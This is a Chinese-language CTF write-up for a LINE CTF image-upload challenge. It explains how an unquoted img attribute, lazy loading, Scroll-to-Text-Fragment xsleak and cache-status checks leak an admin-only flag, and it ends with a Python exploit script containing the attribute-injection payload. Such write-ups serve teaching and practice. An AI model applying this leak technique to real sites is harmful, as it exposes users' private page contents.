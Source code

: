 這題基本上就是個上傳圖片的網站，上傳完會拿到一個 url，接著可以給 title 跟 image url 新建一個 post。

flag 則是用 admin 身份造訪時會放在網頁的最 footer，而且有著奇怪的格式：`LINECTF{([0-9a-f]/){10}}`

然後在顯示圖片的網頁有個地方沒有用雙引號包住：

``` html
<img src={{ image.url }} class="mb-3">
```

雖然看起來是很小的一點，但其實整題的解法都是從這邊延伸出去的。從這邊不難看出我們可以控制 img 的任何屬性，不過我在這邊卡了頗久，想說可以控制又怎樣，沒辦法跳離 img 就不能 XSS。

然後經過隊友提醒才想到 [STTF](https://xsleaks.dev/docs/attacks/experiments/scroll-to-text-fragment/) 的 xsleak，透過 img 的 lazy loading 來偵測是否有 scroll 的行為，所以只要 title 用很長，把 img 推下去，再加上 `loading=lazy` 的屬性，就可以搭配 STTF 來 leak 一個 byte。

不過這題還有一點要注意，就是 CSP：

```
default-src 'self'; script-src 'self'; style-src 'self'; img-src 'self' blob:
```

CSP 繞不開，所以就算 `src` 可控，也沒辦法設置外面的圖片。因此這題加上了另一個機制：cache，可以根據 response header 來決定一個圖片的 cache 是 miss 還是 hit，所以我們只要上傳一張新的圖片丟給 bot，過幾秒再去看他的 response header，如果是 hit 就代表 bot 有訪問圖片，代表 SSTF 有成功。

照著這個概念寫一個 exploit 就好：

``` py
import requests
import json
import time
from time import sleep

base_url = 'http://35.187.204.223'
cookie = "session=.eJwtzrERwzAIAMBdVKcAJCHkZXyA4JzWjqtcdk-K_AT_LnuecR1le513PMr-XGUrqLggVU2SQCFTKqiIUxpbIhpNThy0GkEdXWaGdJ-16nJ3GAO8iwP0QeY5ISjnzLoImHE5VwmdzVCIaxOMMNGIPrizhlErv8h9xfnfAJTPF00fL_M.Yj71GQ.S1yffSzbOk6Rny1VyCqPTL-5wM8"

def upload_image():
  files = {'img_file': open('a.png','rb')}

  resp = requests.post(base_url + '/image/upload', files=files, headers={
    "Cookie": cookie
  })
  return json.loads(resp.text)

def create_post(url):
  resp = requests.post(base_url + '/image', data={
    "title": str(time.time()) + "w"*5000,
    "img_url": f"/static/image/111 srcset={url} loading=lazy "
  }, headers={
    "Cookie": cookie
  }, allow_redirects=False)
  return resp.headers["X-ImageId"]

def share(url, keyword):
  resp = requests.post(base_url + '/share', json={
    "path": "image/" + url + "#:~:text=" + keyword,
  }, headers={
    "Cookie": cookie
  })
  return resp.text

def check_cached(img_url):
  resp = requests.get(base_url + img_url, headers={
    "Cookie": cookie
  }, allow_redirects=False)
  return resp.headers["X-Cache-Status"]

```